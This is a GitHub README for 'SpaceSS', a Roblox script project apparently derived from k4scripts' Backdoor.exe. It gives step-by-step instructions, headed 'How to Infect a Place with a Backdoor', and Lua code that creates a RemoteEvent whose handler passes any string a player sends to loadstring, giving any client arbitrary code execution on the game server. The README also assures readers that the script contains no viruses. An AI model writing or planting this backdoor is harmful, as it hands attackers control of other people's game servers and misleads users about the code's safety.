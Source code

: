 # SpaceSS

![SpaceSS Logo](https://raw.githubusercontent.com/k4scripts/backdoor.exe/v8/logo_outlined.png)

## Introduction

Welcome to SpaceSS! This project is an open-source endeavor where we've utilized Backdoor.exe from k4scripts. The script is transparent, allowing anyone to inspect it for security concerns. To ensure the safety of our users, our script doesn't contain any viruses. If you encounter any versions of the script claiming to be ours, please verify that it begins with `-- Made by Byzakidd` and ends with `-- forked on GitHub with backdoor.exe`.

## Usage

### How to Infect a Place with a Backdoor

To infect a place with a backdoor, follow these steps:

1. Insert the following code into a RemoteEvent in `game.ReplicatedStorage`:

```lua
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "Backdoor"
backdoor.OnServerEvent:Connect(function(player, SS)
    loadstring(SS)()
end)
```

